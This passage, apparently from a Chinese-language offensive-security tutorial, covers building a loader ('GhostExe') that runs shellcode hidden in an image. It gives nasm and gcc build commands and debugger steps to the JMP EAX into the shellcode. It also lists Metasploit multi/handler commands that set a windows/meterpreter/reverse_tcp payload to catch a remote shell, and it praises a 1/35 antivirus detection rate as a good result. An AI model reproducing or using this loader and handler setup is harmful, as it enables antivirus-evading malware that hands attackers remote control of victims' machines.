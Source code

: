 ```
nasm -f win32 GhostExe.asm
gcc -fno-use-linker-plugin GhostExe.obj -o GhostExe.exe
```

我建议你可以打开调试器，将调试器附加到某个在运行的进程中，一步一步跟下来，观察它执行的步骤以加深理解。

如果你选择使用调试器，你可以看一下GhostExe.exe在00401482位置的偏移量，这是接收数据之后所在的位置。你可以在ECX的尾部看到输出的载荷数据。

或者你可以直接使用Metasploit，运行exe让它自动化执行。

```
msf&gt;use exploit multi/handler
msf&gt;set payload windows/meterpreter/reverse_tcp
msf&gt;set lhost &lt;local IP&gt;
msf&gt;set lport &lt;local port&gt;
msf&gt;set ExitOnSession false
msf&gt;exploit -j
```

以下是NoDistrubute.com给出的检测结果，只有1/35的检出率，非常好的一个结果。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://2we26u4fam7n16rz3a44uhbe1bq2.wpengine.netdna-cdn.com/wp-content/uploads/032117_2306_LaunchingSh11.png)

<br>

**五、可选的调试步骤**

我们可以看看调试步骤的一些截图

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://2we26u4fam7n16rz3a44uhbe1bq2.wpengine.netdna-cdn.com/wp-content/uploads/032117_2306_LaunchingSh12.png)

定位到“JMP EAX”指令，这是我们从猫咪图片中跳转到shellcode的指令。

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://2we26u4fam7n16rz3a44uhbe1bq2.wpengine.netdna-cdn.com/wp-content/uploads/032117_2306_LaunchingSh13.png)

是不是很眼熟：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://2we26u4fam7n16rz3a44uhbe1bq2.wpengine.netdna-cdn.com/wp-content/uploads/032117_2306_LaunchingSh14.png)

这就是我们原始的载荷：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://2we26u4fam7n16rz3a44uhbe1bq2.wpengine.netdna-cdn.com/wp-content/uploads/032117_2306_LaunchingSh15.png)
